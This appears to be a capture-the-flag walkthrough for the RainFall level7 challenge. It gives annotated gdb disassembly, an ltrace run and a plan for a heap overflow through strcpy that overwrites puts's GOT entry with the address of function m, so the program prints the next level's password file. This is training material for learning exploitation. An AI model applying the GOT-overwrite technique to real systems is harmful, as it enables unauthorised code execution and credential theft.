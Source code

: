 level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello hello
~~

info var:
0x08049960  c

info function
0x080484f4  m
0x08048521  main

(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:		push   %ebp
   0x08048522 <+1>:		mov    %esp,%ebp
   0x08048524 <+3>:		and    $0xfffffff0,%esp
   0x08048527 <+6>:		sub    $0x20,%esp					; 32 bytes allocated for the variables
   0x0804852a <+9>:		movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>		; 1st malloc (8) - ptr1
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)				; store the return value at esp + 0x1c
   0x0804853a <+25>:	mov    0x1c(%esp),%eax				; set eax to the area of the 1st malloc (esp + 0x1c)
   0x0804853e <+29>:	movl   $0x1,(%eax)					; set the 1st case at 0x1 - ptr1[0] = 1
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>		; 2nd malloc (8)
   0x08048550 <+47>:	mov    %eax,%edx					; save the return of the 2nd malloc function into edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax				; set eax to the area of the 1st malloc (esp + 0x1c)
   0x08048556 <+53>:	mov    %edx,0x4(%eax)				; set the second case of eax at edx, which is the address of the 2nd malloc - ptr1[1] = malloc(8)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>		; 3rd malloc (8) - ptr2
   0x08048565 <+68>:	mov    %eax,0x18(%esp)				; store the return value at esp + 0x18
   0x08048569 <+72>:	mov    0x18(%esp),%eax				; set eax at the address of the 3rd malloc
   0x0804856d <+76>:	movl   $0x2,(%eax)					; set 1st case of the malloc at 0x2 - ptr2[0] = 2
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>		; 4th malloc (8)
   0x0804857f <+94>:	mov    %eax,%edx					; store the return value at edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax				; set eax at the address of the 3rd malloc
   0x08048585 <+100>:	mov    %edx,0x4(%eax)				; put the address of the 4th malloc (at edx), to the 3rd malloc (eax) + 4 bytes - ie the 2nd case - ptr2[1] = malloc(8)
   ///////////////////
   0x08048588 <+103>:	mov    0xc(%ebp),%eax				; set eax to ebp + 12 ?  ebp + 12 = argv[0]?
   0x0804858b <+106>:	add    $0x4,%eax					; Add 4 to eax (argv[1] ?)
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx					; store eax (argv[1]) at edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax				; set the area of the 1st malloc (esp + 0x1c) to eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax				; move to 4 bytes after the address of the 1st malloc, i.e the 2nd case of the area - ptr1[1]
   0x08048599 <+120>:	mov    %edx,0x4(%esp)				; store edx (= argv[1]) at esp + 4
   0x0804859d <+124>:	mov    %eax,(%esp)					; store eax (2nd case of 1st malloc'ed area - ptr1[1]) at esp
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>		; strcpy(esp, esp + 4) - strcpy(ptr1[1], argv[1])
   ///////////////////
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax				; set eax to ebp + 12 ? ebp + 12 = argv[0]?
   0x080485a8 <+135>:	add    $0x8,%eax					; Add 8 to eax (argb[2] ?)
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx					; store eax (argv[2]) at edx
   0x080485af <+142>:	mov    0x18(%esp),%eax				; set eax at the address of the 3rd malloc (esp + 0x18)
   0x080485b3 <+146>:	mov    0x4(%eax),%eax				; move to 4 bytes after the address of the 3rd malloc, i.e the 2nd case of the area - ptr2[1]
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)				; store edx (= argv[2]) at esp + 4
   0x080485ba <+153>:	mov    %eax,(%esp)					; store eax (2nd case of 3rd malloc'ed area - ptr2[1]) at esp
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>		; strcpy(esp, esp + 4 - strcpy(ptr2[1], argv[2])
   0x080485c2 <+161>:	mov    $0x80486e9,%edx				; "r"
   0x080485c7 <+166>:	mov    $0x80486eb,%eax				; "/home/user/level8/.pass"
   0x080485cc <+171>:	mov    %edx,0x4(%esp)				; store "r" at esp + 4
   0x080485d0 <+175>:	mov    %eax,(%esp)					; store "/home/user/level8/.pass" at esp
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>		; call fopen(esp, esp + 4), returns a file pointer
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)				; store return value at esp + 8
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)				; store 68 (0x44) at esp + 4
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)			; store the c variable at esp
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>		; call to fgets(esp, esp+4, esp+8) - fgets(c, 68, "/home/user/level8/.pass")
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)			; "~~"
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>			; puts("~~")
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    								; return (0);
End of assembler dump.

(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:		push   %ebp
   0x080484f5 <+1>:		mov    %esp,%ebp
   0x080484f7 <+3>:		sub    $0x18,%esp
   0x080484fa <+6>:		movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx				; "%s - %d\n"
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)			; c variable
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.

level7@RainFall:~$ ltrace ./level7 hello helloo
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "hello")                      = 0x0804a018
strcpy(0x0804a038, "helloo")                     = 0x0804a038
fopen("/home/user/level8/.pass", "r")            = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++


--> the main stores the pass file in the c variable, but doesn't print it.
We need to call the m function that is not called, but that prints the c variable.

Let's try to call the m function instead of the puts function.

Address of m: 0x080484f4
Address of puts in the GOT, as the address in the PLT is read-only: 0x08049928
/*
level7@RainFall:~$ objdump -R ./level7
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049928 R_386_JUMP_SLOT   puts
*/

-> we need to replace the address of puts by the address of m.
man strcy:
 If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.

We can overflow with strcpy.
Overflow offset:

./level7 arg1 arg2
arg1 = x padding to overflow into 3rd malloc, and replace ptr2[1] with address of puts
arg2 = address of m
-> so that we have strcpy(dest: &puts, src: &m), so when we call puts("~~"), we will call m in reality.
